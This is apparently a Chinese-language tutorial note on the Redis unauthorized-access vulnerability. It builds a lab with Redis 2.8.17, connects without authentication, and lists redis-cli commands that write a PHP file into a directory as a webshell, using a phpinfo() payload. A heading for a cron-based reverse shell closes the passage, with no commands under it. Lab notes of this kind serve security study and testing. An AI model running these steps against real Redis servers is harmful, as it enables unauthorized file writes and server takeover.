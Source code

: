 [redis未授权访问漏洞](https://www.qb5200.com/article/475960.html)

### 环境搭建

1、下载

```
wget http://download.redis.io/releases/redis-2.8.17.tar.gz
```

2、解压编译

```
tar xzvf redis-2.8.17.tar.gz  #解压安装包
cd redis-2.8.17  # 进入redis目录
make #编译
```

3、配置及启动

```
cd src/ #进入src目录 
cp redis-server /usr/bin/ 
cp redis-cli /usr/bin/      #将redis-server和redis-cli拷贝到/usr/bin目录下（这样启动redis-server和redis-cli就不用每次都进入安装目录了）
cd ..   # 返回上一级目录
cp redis.conf /etc/     #将redis.conf拷贝到/etc/目录下
redis-server /etc/redis.conf  # 使用/etc/目录下的redis.conf文件中的配置启动redis服务
```

### 测试未授权访问

```
redis-cli -h 192.168.1.103
```

<img src="图片\Snipaste_2023-02-08_15-56-03.png" alt="Snipaste_2023-02-08_15-56-03"  />

### 1、写入webshell

已经web路径且目录可写

```
利用条件：Web目录权限可读写
config set dir /tmp            #设置WEB写入目录
config set dbfilename 1.php    #设置写入文件名
set test "<?php phpinfo();?>"  #设置写入文件代码
bgsave                         #保存执行
save                           #保存执行
注意：部分没目录权限读写权限               
```

### 2、定时任务反弹shell
